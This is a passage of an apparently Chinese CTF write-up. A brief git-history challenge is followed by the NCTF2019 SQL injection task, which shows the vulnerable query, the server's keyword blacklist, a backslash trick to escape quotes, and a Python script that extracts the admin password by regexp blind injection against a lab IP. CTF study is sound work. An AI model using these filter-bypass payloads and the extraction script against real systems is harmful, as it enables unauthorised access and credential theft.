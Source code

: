 ```shell
Author: X1cT34m <2577544522@qq.com>
Date:   Thu Oct 4 21:48:12 2018 +0800

    wrote a readme file
```

可以看到有两个历史版本

直接**checkout**看一下各版本内容就能看到**flag**

# NCTF2019

## SQLi

```mysql
sqlquery : select * from users where username='1' and passwd='1'
```

直接给出了**sql payload**

引号过滤了，可用转义符绕过

经过简单的fuzz发现过滤了`< > =`，`union select`也同样被过滤

那就只能**regexp**盲注了

**(robots.txt中给出了hint.txt)**

```php
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

写脚本注出passwd

```python
import string
import urllib.parse

import requests
url="http://1.14.71.254:28596/index.php"
str=string.ascii_letters+string.digits+"_-{}@!%$^&*()"
payload=''
while True:
    flag = True
    for i in str:
        result=payload+i
        passwd='||/**/passwd/**/regexp/**/"^{}";'+urllib.parse.unquote("%00")
        name="\\"
        res=requests.post(url=url,data={"username":name,"passwd":passwd.format(result)})
        # print(res.text)
        if "welcome" in res.text:
            payload+=i
            print(payload)
            flag=True
            break
    if not flag:
        print(payload)
        break
```
